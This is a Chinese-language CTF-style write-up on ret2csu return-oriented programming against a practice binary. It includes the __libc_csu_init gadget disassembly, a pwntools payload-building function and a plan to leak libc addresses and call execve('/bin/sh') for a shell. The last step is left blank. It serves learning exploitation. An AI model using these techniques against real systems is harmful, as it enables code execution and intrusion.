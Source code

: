 * 简介
选择中级 ROP 里的 ret2csu 。

* 思路
主要利用的是 libc 里的 libc_csu_init 函数，这个函数是用来初始化 libc 的，并且方便反弹 shell 的 system 和 execve 等函数都在 libc 里，且大部分应用程序都会调用 libc 里的函数。

所以最基本的思路就是通过 target 里调用的 libc 函数来定位到 libc 里其他函数的地址，比如 execve ，之后再构造需要反弹的 shell 之类的参数，通过栈移出到 ret_addr 那里来执行。

* 设计

** __libc_csu_init 函数的利用
查阅资料得知，该函数有一段代码可以设置 x86_64 中三个用于传递参数的寄存器 rsi rdx 和  rdi ，在 level5 这个 elf 文件中，该代码片段如下：
#+BEGIN_SRC
0x00400600      4c89ea         mov rdx, r13      ; 将r13的值（原来的arg3）复制到rdx
0x00400603      4c89f6         mov rsi, r14      ; 将r14的值（原来的arg2）复制到rsi
0x00400606      4489ff         mov edi, r15d     ; 将r15d的值（原来的arg1）复制到edi
0x00400609      41ff14dc       call qword [r12 + rbx*8] ; 通过[r12 + rbx*8]计算得到的地址调用函数，rbx是索引，每次迭代增加8
0x0040060d      4883c301       add rbx, 1        ; 将rbx加1，指向下一个函数指针
0x00400611      4839eb         cmp rbx, rbp      ; 比较rbx和rbp，检查是否已经遍历了整个数组
0x00400614      75ea           jne 0x400600      ; 如果rbx < rbp，意味着还没调用完所有函数，跳回0x400600继续循环
#+END_SRC

** payload 构造基本思路

查看 vulnerable 函数如下，其中缓冲区大小为128，但是 read 的参数为0x200, 是512，明显比分配的缓冲区要大，所以通过向这个 read 函数输入构造的 payload 来实现攻击。

#+BEGIN_IMAGE
[[file:writeup/20231104_133920.png]]
#+END_IMAGE

通过查看汇编代码，发现缓冲区地址为 ~rbp-0x80~ 。

#+BEGIN_IMAGE
[[file:writeup/20231104_135704.png]]
#+END_IMAGE

因此 payload 的构造需要先填充这128和 rdp 的位置 ~p64(0x00*136)~ 。

之后，查看 __libc_csu_init 中可以利用的 gadget 为 0x0040061a ，于是 payload 的下一步为 ~p64(0x0040061a)~

#+BEGIN_IMAGE
[[file:writeup/20231104_152237.png]]
#+END_IMAGE

之后就是填充栈的地址，完成 rbx rbp ret 关键数据的填充。

再之后就是需要 ret 的地址，开始执行代码，这里是 ret 到 ~call qword [r12 + rbx*8]~ 这一行进行 call 操作。

call 操作完成后，ret 会返回到原来的指令，如下：

#+BEGIN_IMAGE
[[file:writeup/20231104_161424.png]]
#+END_IMAGE

算上 ret 共弹出了 7*8 个字节，所以需要一个 56 字节的填充数据。

最后返回 main 函数方便下一步操作。

所以一个 libc_csu_init 的利用函数如下 (GPT 辅助生成的):

#+BEGIN_SRC python
  def craft_ret2csu_payload(buf_size, csu_gadget_addr, func_gadget_addr, func_to_call, rdi, rsi, rdx, rbx=0, rbp=0, r12=0, r13=0, r14=0, r15=0, extra_padding=b'', next_func_addr=None):
      """
      Craft a ret2csu payload to control the registers and call a function.

      :param buf_size: The size of the buffer before the return address.
      :param csu_gadget_addr: The address of the csu gadget.
      :param func_gadget_addr: The address of the function call gadget.
      :param func_to_call: The function to call, usually GOT entry of a function.
      :param rdi: The value to set in RDI before the function call.
      :param rsi: The value to set in RSI before the function call.
      :param rdx: The value to set in RDX before the function call.
      :param rbx: The value to set in RBX, if needed for the csu gadget.
      :param rbp: The value to set in RBP, if needed for the csu gadget.
      :param r12: The value to set in R12, which should be the function to call minus the offset.
      :param r13: The value to set in R13 (RDI).
      :param r14: The value to set in R14 (RSI).
      :param r15: The value to set in R15 (RDX).
      :param extra_padding: Any extra padding if needed after the csu gadgets.
      :param next_func_addr: The address to return to after the function call (e.g., main).
      :return: The constructed payload.
      """
      from pwn import p64

      # Create padding to reach the return address
      payload = b"A" * buf_size

      # Add the csu_gadget_addr
      payload += p64(csu_gadget_addr)

      # Setup values for the CSU gadget
      # It's important to note that the actual registers are not yet set. This is simply putting values on the stack
      # that will be popped into registers by the CSU gadget.
      payload += p64(rbx)
      payload += p64(rbp)
      payload += p64(r12) # This will be the location to call, plus the appropriate offset
      payload += p64(r13) # Becomes RDI
      payload += p64(r14) # Becomes RSI
      payload += p64(r15) # Becomes RDX

      # Add the func_gadget_addr which will call the function [r12+rbx*8]
      payload += p64(func_gadget_addr)

      # Add extra padding if necessary to align the stack correctly
      payload += extra_padding

      # Finally, add the address of the function to call if necessary
      if next_func_addr:
          payload += p64(next_func_addr)

      return payload

#+END_SRC

询问 GPT 得到以下的栈布局结构：

#+BEGIN_IMAGE
[[file:writeup/20231104_132341.png]]
#+END_IMAGE

** 获取 libc.so 的版本
获取 libc 版本前需要先分清楚一个函数的真实地址和其在 libc.so 中的地址的区别。

+ libc.so 中的地址：就是函数在 libc.so 中的地址，这个地址是不变的。
+ 真实地址：程序执行时，函数在内存中的地址，程序基址+偏移量。

由此，通过程序执行时 csu 的利用，可以获得一个函数在 libc.so 中的地址，由此确定 libc.so 的版本号和在程序中的地址，进一步确定目标函数 (如execve, system) 等函数的具体地址。

通过反编译 level5 这个程序可以看出，它使用了 write 和 read 两个函数。

#+BEGIN_IMAGE
[[file:writeup/20231103_153707.png]]
#+END_IMAGE

#+BEGIN_IMAGE
[[file:writeup/20231103_153742.png]]
#+END_IMAGE

于是可以通过这两个函数的地址来确定 libc 的版本等信息。


* 流程

基本流程如下：

1. 第一次利用 csu ，获取 write 相对 GTO 的地址偏移量，确定 libc 的版本，从而获取 execve 的地址偏移量。
2. 第二次利用 csu ，把 execve 地址和 "/bin/sh"  写入 .bss 段。
3. 最后一次利用 csu ，执行 execve 反弹 shell ，完成 ROP 利用。

** 获取 libc 版本
需要执行的目标函数 :write ，输出 write 在内存中的地址偏移量，并以此找到 libc 的版本。

因此各个寄存器数据填充为：
*这里一定要注意 r13 是第三个参数，r15 才是第一个参数*
1. rbx = 0 ; 为了计算 call qword [r12 + rbx*8] ，这里置为0
2. rbp = 1 ; 和 rbx 不一样，让下面的 jne 不跳转。
3. r12 = write.got ; call 指令所调用的地址，这里要把内存地址给 write 到标准输出，所以这个需要是 write.got
4. r15 = 1 ; write 的第一个参数，1 为标准输出
5. r14 = write.got ; write 函数的 GOT 地址
6. r13 = 8 ; wirte 函数的第三个参数，输出 8 个字节。
7. ret = main ; main 函数地址，返回到 main 继续执行，方便之后利用

构造完毕 payload 并进行利用之后得到 write 的 GOT 地址为 6278066737626506568，十六进制为 0x57202c6f6c6c6400.

在 [[https://libc.blukat.me/?q=write%3A400][libc database search]] 这个网站上搜索可以得到对应的 libc 版本，这里直接使用有心人封装好的 LibcSearcher 。

** 获取 /bin/sh 等参数字符串

找到了 execve 的地址，还需要获取 '/bin/sh' 这个字符串来获取 shell ，但是程序里没有这个字符串，需要手动写入，一般写入到 .bss 段内比较合适.

再次利用一次 csu ，调用 read 函数从标准输入读取相应的字符串到 bss 内即可。

** 获取 shell

* tip

不能把静态调试的指令地址和实际执行的数据地址弄混，栈之类的数据都是运行时在内存里随机分配的，没法直接操作，并且向 r12 rbx 这种寄存器也是通过溢出所操作不了的，而 __libc_csu_init 能利用的原因就是因为上文提到的 gadget ，他从栈里弹数据写道寄存器里，这就给了我们操作的空间。

ret 指令：在 x64 机器中，弹出8个字节的数据，并作为地址返回开始执行上面的指令许列，这里的重点也是从栈上弹出地址，操作栈就可以劫持控制流。

* 工具
- radare2
